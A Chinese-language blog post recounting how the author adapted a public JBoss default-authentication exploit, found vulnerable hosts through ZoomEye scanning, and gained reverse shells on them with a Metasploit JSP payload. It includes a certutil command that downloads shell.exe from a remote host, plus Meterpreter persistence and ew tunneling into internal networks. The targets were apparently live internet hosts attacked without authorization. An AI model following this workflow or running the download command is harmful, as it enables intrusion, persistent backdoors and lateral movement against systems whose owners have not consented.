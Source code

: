文章缘起于github上的一个jboss利用代码[https://github.com/yuxiaokui/JBoss-Hack](https://github.com/yuxiaokui/JBoss-Hack)
人家还给了一个简单的UIshell界面 不过，好难用的说这个后面再说
这个漏洞就是JBoss的默认身份验证漏洞，都不用登录的说，直接去网上扫就好了
那么问题来了，原作者写的一句话jsp的后门菜刀连不上，蚁剑不支持jsp，这就尴尬了，不过还好人家代码挺少，只能乖乖修改源码去了。
![](https://github.com/0linlin0/Records/blob/master/images/jb1.png?raw=true)
原作者调用了zoomeye的api，然后构造exp，发送get请求，并验证在这里我们可以修改exp，我们强大的msf可以生成payload，用的是 payload/java/jsp_shell_reverse_tcp ，生成的代码不太多，因为漏洞利用的时候需要将代码url编码后放到get请求里，所以这里就悲催了，尽量压缩代码把。msf心比它提供的UIshell界面好用多了。谁让我java很烂呢:(
生成payload并进行url编码，修改exp，然后运行修改后的脚本

![](https://github.com/0linlin0/Records/blob/master/images/jb2.png)

得到存在漏洞的主机列表

![](https://github.com/0linlin0/Records/blob/master/images/jb3.png)


Msf端设置监听端口，等待回连，访问链接，回连成功

![](https://github.com/0linlin0/Records/blob/master/images/jb4.png)

Yes！拿到了webshell，我就想拿meterpreter，首先得上传payload，所以我又去搜，windows命令行下怎么样下载远程文件，得到了好多结果

[http://www.4hou.com/system/8661.html](http://www.4hou.com/system/8661.html)

[http://www.freebuf.com/articles/system/155147.html](http://www.freebuf.com/articles/system/155147.html) 
[结果3](http://wps2015.org/drops/drops/%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%8415%E7%A7%8D%E6%96%B9%E6%B3%95.html)

嗯。。我想说搜到了这么多，我只用了一个certutil
在webshell上运行这个命令
certutil.exe -urlcache -split -f https：//a.com/shell.exe
[certutil.exe利用](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84certutil.exe/)
嘻嘻嘻，原谅我的懒惰，剩下的好多看不懂。。。所以以后慢慢唉，总会又用到的时候
所以我再vps上搭建了一个web服务，这样就可以啦，我的meterperter上传上去啦！所以我得到更高级的shell啦，而且还可以是长期的!说到这里，又遇到两个问题：
首先是上出啊的payload免杀的问题，还有是持久后门的问题，这一搜，打开了新世界的大门。这里留个坑，以后好好研究这里的内容。因为我比较幸运，目标上没有任何防护，不涉及到免杀，而且meterpreter自带的持久后门run persistence暂时就蛮好用的，虽然官方不推荐了，不过我们先凑活着用，毕竟只是练练手，嘻嘻。
然后就进入到进入内网的问题了，ew人家更新了（http://rootkiter.com/Termite/）
看了人家的视频，真的是好好用，我太菜了，一直不成功，是不是Termite只支持正向socks..应该不会吧，所以只能先用着ew了。。。伤心当中。
关于Termite的使用不成功


![](https://github.com/0linlin0/Records/blob/master/images/jb5.png)


上传成功后msf监听端口，等待回连，回连成功

![](https://github.com/0linlin0/Records/blob/master/images/jb6.png)
